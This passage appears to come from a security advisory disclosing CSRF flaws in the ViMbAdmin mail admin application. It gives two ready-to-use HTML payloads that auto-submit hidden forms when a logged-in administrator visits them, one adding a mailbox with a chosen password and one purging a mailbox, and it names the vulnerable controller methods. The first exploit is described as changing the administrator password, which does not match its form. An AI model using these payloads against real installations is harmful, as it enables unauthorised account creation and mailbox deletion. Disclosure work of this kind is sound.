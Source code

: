 #### Vulnerable code

The vulnerable code is located in the `passwordAction()` method of the `<vimbadmin directory>/application/controllers/DomainController.php` file.

### Add mailbox address

#### Exploit

The following html/javascript code allows to update administrator password. It needs to be visited by a logged administrator of the targeted ViMbAdmin application.

```html
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/mailbox/add/did/<domain id>" method="POST" target="csrf-frame" >
<input type="text" name="local_part" value="<fakeemail>" >
<input type="text" name="domain" value="<domain id>" >
<input type="text" name="name" value="<fake name>" >
<input type="text" name="password" value="<password>" >
<input type="text" name="quota" value="0" >
<input type="text" name="alt_email" value="" >
<input type="text" name="cc_welcome_email" value="" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>
```

#### Vulnerable code

The vulnerable code is located in the `addAction()` method of the `<vimbadmin directory>/application/controllers/MailboxController.php` file.

### Purge mailbox

#### Exploit

The following html/javascript code allows to remove a mailbox address. It needs to be visited by a logged administrator of the targeted ViMbAdmin application.

```html
<head>
<title>CSRF ViMbAdmin</title>
</head>
<body>


<iframe style="display:none" name="csrf-frame"></iframe>
<form id="csrf-form" action="http://<target ip>/mailbox/purge/mid/<mailbox id>" method="POST" target="csrf-frame" >
<input type="text" name="data" value="purge" >
</form>


<script>document.getElementById("csrf-form").submit()</script>

</body>
```